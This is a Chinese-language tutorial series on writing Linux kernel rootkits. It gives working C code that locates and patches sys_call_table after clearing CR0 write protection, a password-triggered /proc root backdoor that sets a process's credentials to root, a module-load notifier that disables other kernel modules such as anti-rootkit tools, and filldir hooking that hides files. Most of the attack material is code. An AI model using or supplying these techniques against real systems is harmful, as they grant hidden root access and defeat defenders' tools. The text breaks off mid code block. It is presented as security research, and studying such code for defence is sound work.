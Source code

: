 Linux Rootkit 研究
@@@@@@@@@@@@@@@@@@

Linux Rootkit 系列二：基于修改 `sys_call_table`_ 的系统调用挂钩
===============================================================

rectigu@gmail.com, 二〇一六年五月。

前言： `《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
的作者似乎跑路了；留下的这个口锅，我试着背一下。
鉴于笔者知识能力上的不足，如有问题欢迎各位扔豆腐，不要砸砖头。

与第一篇文章作者所想象的不同，
本文不打算给大家介绍三种不同的系统调用挂钩技术，
相反，本文仅详细讲解最简单的系统调用挂钩方案，
并且基于这个方案实现最基本的文件监视工具。
这样，既可以让读者轻松上手进行实际应用，
又可以加深、巩固读者对 LKM_ 的理解，
同时还免去了一次学习多种挂钩方案的理论知识压力。

所以，本文力求以实验为核心，每一个步骤都可能有对应的实验代码。
代码仓库： https://github.com/NoviceLive/research-rootkit 。
代码在最新的 64 比特 Arch_ 与 Kali_ 上面测试正常。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

如果读者使用 tmux_ 或者类似的工具，
则可以垂直分割你的终端窗口，
一个窗口开一个 ``sudo dmesg -C && dmesg -w`` ，用于查看日志；
另一个窗口用来做其他操作，比如构建、加载内核模块。
不用 tmux_ 也没关系，开两个终端，各占半个屏幕。


第一部分：基于修改 `sys_call_table`_ 的系统调用挂钩
---------------------------------------------------

在系统调用挂钩技术中，最简单、最流行的方案是修改
`sys_call_table`_ ，
成员类型为函数指针的一维数组。

.. code-block:: c

   asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
   	/*
   	 * Smells like a compiler bug -- it doesn't work
   	 * when the & below is removed.
   	 */
   	[0 ... __NR_syscall_max] = &sys_ni_syscall,
   #include <asm/syscalls_64.h>
   };

要修改它，首先得拿到它在内存里的位置。
然后，由于 `sys_call_table`_ 所在的内存是有写保护的，
所以我们需要先去掉写保护，再做修改。

1. 获得 `sys_call_table`_ 的内存地址
++++++++++++++++++++++++++++++++++++

在综合考量了几种可选的获取方案之后，
笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。
（ **但是这种方案有可能被欺骗** 。）

其他可能的方案有，一，从 `/boot/System.map`_ 中读取，
感兴趣的读者可以查阅
`Hooking the Linux System Call Table`_ ，
这篇文章便是使用这种方案来获取 `sys_call_table`_ 的地址的。

二，从使用了 `sys_call_table`_
的某些未导出函数的机器码里面进行特征搜索，
感兴趣的读者可以查阅
`Kernel-Land Rootkits`_ ，
作者花了几张 slides
阐述了如何从导出的函数中获取使用了 `sys_call_table`_ 的未导出函数，
进而搜索那个未导出函数的机器码，
得到 `sys_call_table`_ 的地址；等等。

值得指出的是，
感兴趣的读者在测试这些本文未涉及的方案时，
如果遇到了疑惑或者困难，也可以与笔者联系、交流。

直接看代码。

.. code-block:: c

   unsigned long **
   get_sys_call_table(void)
   {
     unsigned long **entry = (unsigned long **)PAGE_OFFSET;

     for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
       if (entry[__NR_close] == (unsigned long *)sys_close) {
           return entry;
         }
     }

     return NULL;
   }

`PAGE_OFFSET`_ 是内核内存空间的起始地址。
因为 `sys_close`_ 是导出函数
（需要指出的是， ``sys_open`` 、 ``sys_read`` 等并不是导出的），
我们可以直接得到他的地址；因为系统调用号
（也就是 `sys_call_table`_ 这个一维数组的索引）
在同一 ABI_ （x86 跟 x64 不是同一 ABI）上具有高度的后向兼容性，
更重要的是，我们可以直接使用这个索引（代码中的 ``__NR_close`` ）！

从内核内存的起始地址开始，
逐一尝试每一个指针大小的内存：把它当成是 `sys_call_table`_ 的地址，
用某个系统调用的编号（也就是索引）访问数组中的成员，
如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，
那么我们就认为当前尝试的这块指针大小的内存就是我们要找的
`sys_call_table`_ 的地址。

.. image:: images/sys_call_table.png

2. 关闭写保护
+++++++++++++

写保护指的是写入只读内存时出错。
这个特性可以通过 CR0_ 寄存器控制：开启或者关闭，
只需要修改一个比特，也就是从 0 开始数的第 16 个比特。

看代码。我们可以使用 `read_cr0`_ / `write_cr0`_
来读取 / 写入 CR0_ 寄存器，
免去我们自己写内联汇编的麻烦。

函数原型。

.. code-block:: c

   static inline unsigned long read_cr0(void);

   static inline void write_cr0(unsigned long x);

关闭写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 0。

.. code-block:: c

   void
   disable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     clear_bit(16, &cr0);
     write_cr0(cr0);
   }

开启写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 1。

.. code-block:: c

   void
   enable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     set_bit(16, &cr0);
     write_cr0(cr0);
   }


在设置或者清除某个比特，我们使用了 `set_bit`_ 与 `clear_bit`_ 。
它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂，
同时还免去了我们自己写那种很难读的位运算的痛苦。

函数原型。

.. code-block:: c

   static __always_inline void
   set_bit(long nr, volatile unsigned long *addr);

   static __always_inline void
   clear_bit(long nr, volatile unsigned long *addr);

.. image:: images/write_protection.png

3. 修改 `sys_call_table`_
+++++++++++++++++++++++++

一维数组赋值，当之无愧最简单的方案。
当然，我们需要先把真正的值保存好，以备后面之需。

.. code-block:: c

   disable_write_protection();
   real_open = (void *)sys_call_table[__NR_open];
   sys_call_table[__NR_open] = (unsigned long*)fake_open;
   real_unlink = (void *)sys_call_table[__NR_unlink];
   sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
   real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
   sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
   enable_write_protection();

4. 恢复
+++++++

.. code-block:: c

   disable_write_protection();
   sys_call_table[__NR_open] = (unsigned long*)real_open;
   sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
   sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
   enable_write_protection();


第二部分：基于系统调用挂钩的初级文件监视
----------------------------------------

监视文件的创建与删除。
我们挂钩 `sys_open`_, `sys_unlink`_, `sys_unlinkat`_ 这三个函数，
并且在我们的钩子函数把操作到的文件名打印出来，
然后把控制交给真正的系统调用处理。

1. `sys_open`_ 的钩子函数： ``fake_open``
+++++++++++++++++++++++++++++++++++++++++

考虑到在系统运行时，对文件的读写操作从未中断，
这里只打印了进行创建操作的文件名，准确地说是，
`sys_open`_ 的 ``flags`` 中包含 `O_CREAT`_ 。

.. code-block:: c

   asmlinkage long
   fake_open(const char __user *filename, int flags, umode_t mode)
   {
     if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) {
       printk(KERN_ALERT "open: %s\n", filename);
     }

     return real_open(filename, flags, mode);
   }

注：这里的 `strcmp`_ 也是内核提供的。

2. `sys_unlink`_ 与 `sys_unlinkat`_ 的钩子函数： ``fake_unlink`` 与 ``fake_unlinkat``
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

简单处理，直接打印路径名。

.. code-block:: c

   asmlinkage long
   fake_unlink(const char __user *pathname)
   {
     printk(KERN_ALERT "unlink: %s\n", pathname);

     return real_unlink(pathname);
   }

   asmlinkage long
   fake_unlinkat(int dfd, const char __user * pathname, int flag)
   {
     printk(KERN_ALERT "unlinkat: %s\n", pathname);

     return real_unlinkat(dfd, pathname, flag);
   }

3. 测试我们的文件监视工具
+++++++++++++++++++++++++

初级的文件监视就到这了，以后我们在做进一步的改进与完善。

.. image:: images/fsmon.png


第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `The Linux Kernel API`_
- `How the Linux kernel handles a system call`_
- CR0_

2. 延伸阅读
+++++++++++

- `Hooking the Linux System Call Table`_
- `Kernel-Land Rootkits`_


.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html

.. _Hooking the Linux System Call Table: https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
.. _Kernel-Land Rootkits: http://www.kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

.. _/boot/System.map: https://en.wikipedia.org/wiki/System.map
.. _LKM: https://en.wikipedia.org/wiki/Loadable_kernel_module
.. _ABI: https://en.wikipedia.org/wiki/Application_binary_interface
.. _CR0: https://en.wikipedia.org/wiki/Control_register#CR0

.. _The Linux Kernel API: https://www.kernel.org/doc/htmldocs/kernel-api/index.html
.. _set_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html
.. _clear_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html
.. _strcmp: https://www.kernel.org/doc/htmldocs/kernel-api/API-strcmp.html

.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _read_cr0: http://lxr.free-electrons.com/ident?i=read_cr0
.. _write_cr0: http://lxr.free-electrons.com/ident?i=write_cr0
.. _sys_close: http://lxr.free-electrons.com/ident?i=sys_close
.. _sys_open: http://lxr.free-electrons.com/ident?i=sys_open
.. _sys_unlink: http://lxr.free-electrons.com/ident?i=sys_unlink
.. _sys_unlinkat: http://lxr.free-electrons.com/ident?i=sys_unlinkat
.. _sys_call_table: http://lxr.free-electrons.com/ident?i=sys_call_table
.. _PAGE_OFFSET: http://lxr.free-electrons.com/ident?i=PAGE_OFFSET
.. _O_CREAT: http://lxr.free-electrons.com/ident?i=O_CREAT

.. _Arch: https://www.archlinux.org/
.. _Kali: https://www.kali.org/

.. _How the Linux kernel handles a system call:  https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html

.. _tmux: https://tmux.github.io/


Linux Rootkit 系列三：实例详解 Rootkit 必备的基本功能
=====================================================

rectigu@gmail.com, 二〇一六年六月。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

本文所需的完整代码位于笔者的代码仓库：
https://github.com/NoviceLive/research-rootkit。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

概要
----

在 `上一篇文章`_ 中笔者详细地阐述了基于直接修改系统调用表
（即 ``sys_call_table`` / ``ia32_sys_call_table`` ）的挂钩，
文章强调以代码与动手实验为核心。

长话短说，本文也将以同样的理念带领读者一一缕清
Rootkit 必备的基本功能，
包括提供 root 后门，控制内核模块的加载，
**隐藏文件** （提示：这是文章的重点与核心内容），
隐藏进程，隐藏网络端口，隐藏内核模块等。

短话长说，本文不打算给大家介绍剩下的几种不同的系统调用挂钩技术：
比如说，修改 32 位系统调用（ 使用 ``int $0x80`` ）
进入内核需要使用的 `IDT`_
（ `Interrupt descriptor table`_ / 中断描述符表） 项，
修改 64 位系统调用（ 使用 ``syscall`` ）需要使用的 `MSR`_
（ `Model-specific register`_ / 模型特定寄存器，具体讲，
64 位系统调用派遣例程的地址位于 `MSR_LSTAR`_ ）；
又比如基于修改系统调用派遣例程
（对 64 位系统调用而言也就是 ``entry_SYSCALL_64`` ） 的钩法；
又或者，内联挂钩 / `Inline Hooking`_ 。

这些钩法我们以后再谈，现在，我们先专心把一种钩法玩出花样。
`上一篇文章`_ 讲的钩法，也就是函数指针的替换，并不局限于钩系统调用。
本文会将这种方法应用到其他的函数上。

.. _上一篇文章: http://www.freebuf.com/sectool/105713.html


第一部分：Rootkit 必备的基本功能
--------------------------------

**站稳，坐好。**

1. 提供 root 后门
+++++++++++++++++

这个特别好讲，笔者就拿提供 root 后门这个功能开刀了。

大家还记得前段时间 `全志`_ （ `AllWinner`_ ）
提供的 Linux 内核里面的 root 后门吧，
不了解的可以看一下 `FB`_ 之前的文章，
`外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门`_ 。

我们拿 `后门的那段源代码`_ 改改就好了。

具体说来，逻辑是这样子的，
我们的内核模块在 `/proc`_ 下面创建一个文件，
如果某一个进程向这个文件写入特定的内容
（读者可以把这个“特定的内容”理解成口令或者密码），
我们的内核模块就把这个进程的 uid_ 与 euid_ 等等全都设置成 0，
也就是 root 账号的。这样，这个进程就拥有了 root 权限。

不妨拿 `全志`_ root 后门这件事来举个例子，
在运行有后门的 Linux 内核的设备上，
进程只需要向 ``/proc/sunxi_debug/sunxi_debug`` 写入 ``rootmydevice``
就可以获得 root 权限。

另外，我们的内核模块创建的那个文件显然是要隐藏掉的。
考虑到现在还没讲文件隐藏（本文后面会谈文件隐藏），所以
这一小节的实验并不包括将创建出来的文件隐藏掉。

下面我们看看怎样在内核模块里创建 `/proc`_ 下面的文件。

`全志`_ root 后门代码里用到的 ``create_proc_entry``
是一个过时了的 API_ ，而且在新内核里面它已经被去掉了。
考虑到笔者暂时还不考虑兼容老的内核，
所以我们直接用新的 API_ ， ``proc_create`` 与 ``proc_remove`` ，
分别用于创建与删除一个 `/proc`_ 下面的项目。

函数原型如下。

.. code-block:: c

   # include <linux/proc_fs.h>

   static inline struct proc_dir_entry *
   proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct file_operations *proc_fops);

   void
   proc_remove(struct proc_dir_entry *entry);

``proc_create`` 参数的含义依次为，文件名字，文件访问模式，
父目录，文件操作函数结构体。
我们重点关心第四个参数： ``struct file_operations``
里面是一些函数指针，即对文件的各种操作的处理函数，
比如，读（ ``read`` ）、写（ ``write`` ）。
该结构体的定义位于 ``linux/fs.h`` ，后面讲文件隐藏的时候还会遇到它。

创建与删除一个 `/proc`_ 文件的代码示例如下。

.. code-block:: c

   struct proc_dir_entry *entry;

   entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

   proc_remove(entry);


实现我们的需求只需要提供一个写操作（ ``write`` ）
的处理函数就可以了，如下所示。

.. code-block:: c

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       char *kbuff;
       struct cred* cred;

       // 分配内存。
       kbuff = kmalloc(count, GFP_KERNEL);
       if (!kbuff) {
           return -ENOMEM;
       }

       // 复制到内核缓冲区。
       if (copy_from_user(kbuff, buff, count)) {
           kfree(kbuff);
           return -EFAULT;
       }
       kbuff[count] = (char)0;

       if (strlen(kbuff) == strlen(AUTH) &&
           strncmp(AUTH, kbuff, count) == 0) {

           // 用户进程写入的内容是我们的口令或者密码，
           // 把进程的 ``uid`` 与 ``gid`` 等等
           // 都设置成 ``root`` 账号的，将其提权到 ``root``。
           fm_alert("%s\n", "Comrade, I will help you.");
           cred = (struct cred *)__task_cred(current);
           cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
           cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
           fm_alert("%s\n", "See you!");
       } else {
           // 密码错误，拒绝提权。
           fm_alert("Alien, get out of here: %s.\n", kbuff);
       }

       kfree(buff);
       return count;
   }

实验
****

编译并加载我们的内核模块，以 Kali_ 为例：
Kali_ 默认只有 root 账号，
我们可以用 ``useradd <username>``
添加一个临时的非 root 账号来运行提权脚本（ ``r00tme.sh`` ）做演示。
效果参见下图，
可以看到在提权之前用户的 uid_ 是 1000，
也就是普通用户，不能读取 ``/proc/kcore`` ；
提权之后， uid_ 变成了 0，也就是超级用户，可以读取 ``/proc/kcore`` 。

.. image:: images/root-backdoor.png



.. _后门的那段源代码: https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41

2. 控制内核模块的加载
+++++++++++++++++++++

想象一下，在一个月黑风高的夜晚，邪恶的读者（误：善良的读者）
通过某种手段（可能的经典顺序是 RCE_ + LPE_ ，
Remote Code Execution / 远程代码执行
+ Local Privilege Escalation / 本地特权提升）
得到了某台机器的 root 命令执行；
进而执行 Rootkit 的 Dropper 程序释放并配置好 Rootkit，
让其进入工作状态。

这时候，Rootkit 首先应该做的并不是提供 root 后门；
而是，一方面，我们应该尝试把我们进来的门（漏洞）堵上，
避免 **其他** 不良群众乱入，另一方面，我们希望能控制好其他程序
（这个其他程序主要是指反 Rootkit 程序与 **其他** 不良 Rootkit），
使其不加载 **其他** 不良内核模块与我们在内核态血拼。

理想状态下，我们的 Rootkit 独自霸占内核态，
阻止所有不必要的代码
（尤其是反 Rootkit 程序与 **其他** 不良 Rootkit）在内核态执行。
当然，理想是艰巨的，所以我们先做点容易的，控制内核模块的加载。

控制内核模块的加载，我们可以从通知链机制下手。
通知链的详细工作机制读者可以查看参考资料；
简单来讲，当某个子系统或者模块发生某个事件时，
该子系统主动遍历某个链表，
而这个链表中记录着其他子系统或者模块注册的事件处理函数，
通过传递恰当的参数调用这个处理函数达到事件通知的目的。


具体来说，我们注册一个模块通知处理函数，
在模块完成加载之后、开始初始化之前，
即模块状态为 ``MODULE_STATE_COMING`` ，
将其初始函数掉包成一个什么也不做的函数。
这样一来，模块不能完成初始化，也就相当于残废了。

笔者决定多读读代码，少讲理论，
所以我们先简要分析一下内核模块的加载过程。
相关代码位于内核源码树的 ``kernel/module.c`` 。
我们从 ``init_module`` 开始看。

.. code-block:: c

   SYSCALL_DEFINE3(init_module, void __user *, umod,
            unsigned long, len, const char __user *, uargs)
   {
        int err;
        struct load_info info = { };

        // 检查当前设置是否允许加载内核模块。
        err = may_init_module();

        if (err)
            return err;

        pr_debug("init_module: umod=%p, len=%lu, uargs=%p\n",
               umod, len, uargs);

        // 复制模块到内核。
        err = copy_module_from_user(umod, len, &info);
        if (err)
            return err;

        // 交给 ``load_module`` 进一步处理。
        return load_module(&info, uargs, 0);
   }

模块加载的主要工作都是 ``load_module`` 完成的，这个函数比较长，
这里只贴我们关心的一小段。

.. code-block:: c

   static int load_module(struct load_info *info, const char __user *uargs,
               int flags)
   {
        // 这儿省略若干代码。

        /* Finally it's fully formed, ready to start executing. */
        // 模块已经完成加载，可以开始执行了（但是还没有执行）。
        err = complete_formation(mod, info);
        if (err)
            goto ddebug_cleanup;

        // 我们注册的通知处理函数会在 ``prepare_coming_module`` 的
        // 时候被调用，完成偷天换日。在下面我们还会分析一下这个函数。
        err = prepare_coming_module(mod);
        if (err)
            goto bug_cleanup;

        // 这儿省略若干代码。

        // 在 ``do_init_module`` 里面，模块的初始函数会被执行。
        // 然而在这个时候，我们早就把他的初始化函数掉包了（/偷笑）。
        return do_init_module(mod);

        // 这儿省略若干代码：错误时释放资源等。
   }

.. code-block:: c

   static int prepare_coming_module(struct module *mod)
   {
        int err;

        ftrace_module_enable(mod);
        err = klp_module_coming(mod);
        if (err)
            return err;

        // 就是这儿！调用通知链中的通知处理函数。
        // ``MODULE_STATE_COMING`` 会原封不动地传递给我们的处理函数，
        // 我们的处理函数只需处理这个通知。
        blocking_notifier_call_chain(&module_notify_list,
                         MODULE_STATE_COMING, mod);
        return 0;
   }

说的具体点，
我们注册的通知链处理函数是在 ``notifier_call_chain``
函数里被调用的，调用层次为： ``blocking_notifier_call_chain`` ->
``__blocking_notifier_call_chain`` -> ``notifier_call_chain`` 。
有疑惑的读者可以细致地看看这部分代码，
位于内核源码树的 ``kernel/notifier.c`` 。

代码分析告一段落，接下来我们看看如何注册模块通知处理函数。
用于描述通知处理函数的结构体是 ``struct notifier_block`` ，
定义如下 。

.. code-block:: c

   typedef  int (*notifier_fn_t)(struct notifier_block *nb,
                unsigned long action, void *data);

   struct notifier_block {
        notifier_fn_t notifier_call;
        struct notifier_block __rcu *next;
        int priority;
   };

注册或者注销模块通知处理函数可以使用 ``register_module_notifier``
或者 ``unregister_module_notifier`` ，函数原型如下。

.. code-block:: c

   int
   register_module_notifier(struct notifier_block *nb);

   int
   unregister_module_notifier(struct notifier_block *nb);

编写一个通知处理函数，然后填充 ``struct notifier_block`` 结构体，
最后使用 ``register_module_notifier`` 注册就可以了。代码片段如下。

.. code-block:: c

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data);

   struct notifier_block nb = {
       .notifier_call = module_notifier,
       .priority = INT_MAX
   };

上面的代码是声明处理函数并填充所需结构体；
下面是处理函数具体实现。

.. code-block:: c

   int
   fake_init(void);
   void
   fake_exit(void);


   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data)
   {
       struct module *module;
       unsigned long flags;
       // 定义锁。
       DEFINE_SPINLOCK(module_notifier_spinlock);

       module = data;
       fm_alert("Processing the module: %s\n", module->name);

       //保存中断状态加锁。
       spin_lock_irqsave(&module_notifier_spinlock, flags);
       switch (module->state) {
       case MODULE_STATE_COMING:
           fm_alert("Replacing init and exit functions: %s.\n",
                    module->name);
           // 偷天换日：篡改模块的初始函数与退出函数。
           module->init = fake_init;
           module->exit = fake_exit;
           break;
       default:
           break;
       }

       // 恢复中断状态解锁。
       spin_unlock_irqrestore(&module_notifier_spinlock, flags);

       return NOTIFY_DONE;
   }


   int
   fake_init(void)
   {
       fm_alert("%s\n", "Fake init.");

       return 0;
   }


   void
   fake_exit(void)
   {
       fm_alert("%s\n", "Fake exit.");

       return;
   }

实验
****

测试时我们还需要构建另外一个简单的模块（ ``test`` ）来测试，
从下图可以看到在加载用于控制模块加载的内核模块（ ``komonko`` ）
之前， ``test`` 的初始函数与退出函数都正常的执行了；
在加载 ``komonko`` 之后， 无论是加载 ``test`` 还是卸载 ``test`` ，
它的初始函数与退出函数都没有执行，
执行的是我们掉包后的初始函数与退出函数。

.. image:: images/komon.png

3. 隐藏文件
+++++++++++

说好的重点内容文件隐藏来了。
不过说到文件隐藏，我们不妨先看看文件遍历的实现，
也就是系统调用 ``getdents`` / ``getdents64`` ，
简略地浏览它在内核态服务函数（sys_getdents）的源码
（位于 ``fs/readdir.c`` ），我们可以看到如下调用层次，
``sys_getdents`` -> ``iterate_dir``
-> ``struct file_operations`` 里的 ``iterate``
-> 这儿省略若干层次
-> ``struct dir_context`` 里的 ``actor`` ，也就是 ``filldir`` 。

``filldir`` 负责把一项记录（比如说目录下的一个文件或者一个子目录）
填到返回的缓冲区里。如果我们钩掉 ``filldir`` ，
并在我们的钩子函数里对某些特定的记录予以直接丢弃，
不填到缓冲区里，上层函数与应用程序就收不到那个记录，
也就不知道那个文件或者文件夹的存在了，也就实现了文件隐藏。

具体说来，我们的隐藏逻辑如下：
篡改根目录（也就是“/”）的 ``iterate`` 为我们的假 ``iterate`` ，
在假函数里把 ``struct dir_context`` 里的 ``actor`` 替换成我们的
假 ``filldir`` ，假 ``filldir`` 会把需要隐藏的文件过滤掉。

下面是假 ``iterate`` 与 假 ``filldir`` 的实现。

.. code-block:: c

   int
   fake_iterate(struct file *filp, struct dir_context *ctx)
   {
       // 备份真的 ``filldir``，以备后面之需。
       real_filldir = ctx->actor;

       // 把 ``struct dir_context`` 里的 ``actor``，
       // 也就是真的 ``filldir``
       // 替换成我们的假 ``filldir``
       *(filldir_t *)&ctx->actor = fake_filldir;

       return real_iterate(filp, ctx);
   }


   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
           // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
           fm_alert("Hiding: %s", name);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 如果不是需要隐藏的文件，
       // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }


钩某个目录的 ``struct file_operations`` 里的函数，
笔者写了一个通用的宏。

.. code-block:: c

   # define set_f_op(op, path, new, old)                       \
       do {                                                    \
           struct file *filp;                                  \
           struct file_operations *f_op;                       \
                                                               \
           fm_alert("Opening the path: %s.\n", path);          \
           filp = filp_open(path, O_RDONLY, 0);                \
           if (IS_ERR(filp)) {                                 \
               fm_alert("Failed to open %s with error %ld.\n", \
                        path, PTR_ERR(filp));                  \
               old = NULL;                                     \
           } else {                                            \
               fm_alert("Succeeded in opening: %s\n", path);   \
               f_op = (struct file_operations *)filp->f_op;    \
               old = f_op->op;                                 \
                                                               \
               fm_alert("Changing iterate from %p to %p.\n",   \
                        old, new);                             \
               disable_write_protection();                     \
               f_op->op = new;                                 \
               enable_write_protection();                      \
           }                                                   \
       } while(0)


实验
****

实验时，笔者随（gu）手（yi）用来隐藏的文件名： ``032416_525.mp4`` 。
从下图我们可以看到，在加载我们的内核模块（ ``fshidko`` ）之前，
``test`` 目录下的 ``032416_525.mp4`` 是可以列举出来的；
但是加载 ``fshidko`` 之后就看不到了，并且在 ``dmesg`` 的日志里，
我们可以看到 ``fshidko`` 打印的隐藏了这个文件的信息。

.. image:: images/fshid.png

选读内容：相关内核源码的简略分析
********************************

.. code-block:: c

   SYSCALL_DEFINE3(getdents, unsigned int, fd,
            struct linux_dirent __user *, dirent, unsigned int, count)
   {
        // 这儿省略若干代码。

        struct getdents_callback buf = {
            .ctx.actor = filldir, // 最后的接锅英雄。
            .count = count,
            .current_dir = dirent
        };

        // 这儿省略若干代码。

        // 跟进 ``iterate_dir``，
        // 可以看到它是通过 ``struct file_operations`` 里
        // ``iterate`` 完成任务的。
        error = iterate_dir(f.file, &buf.ctx);

        // 这儿省略若干代码。

        return error;
   }

   int iterate_dir(struct file *file, struct dir_context *ctx)
   {
        struct inode *inode = file_inode(file);
        int res = -ENOTDIR;

        // 如果 ``struct file_operations`` 里的 ``iterate``
        // 为 ``NULL``，返回 ``-ENOTDIR`` 。
        if (!file->f_op->iterate)
            goto out;

        // 这儿省略若干代码。

        res = -ENOENT;
        if (!IS_DEADDIR(inode)) {
            ctx->pos = file->f_pos;
            // ``iterate_dir`` 把锅甩给了
            // ``struct file_operations`` 里的 ``iterate``，
            // 对这个 ``iterate`` 的分析请看下面。
            res = file->f_op->iterate(file, ctx);
            file->f_pos = ctx->pos;
            // 这儿省略若干代码。
        }
        // 这儿省略若干代码。
   out:
        return res;
   }

这一层一层的剥开，
我们来到了 ``struct file_operations`` 里面的 ``iterate`` ，
这个 ``iterate`` 在不同的文件系统有不同的实现，
下面（位于 ``fs/ext4/dir.c`` ）
是针对 ext4_ 文件系统的 ``struct file_operations`` ，
我们可以看到 ext4_ 文件系统的 ``iterate`` 是 ``ext4_readdir`` 。

.. code-block:: c

   const struct file_operations ext4_dir_operations = {
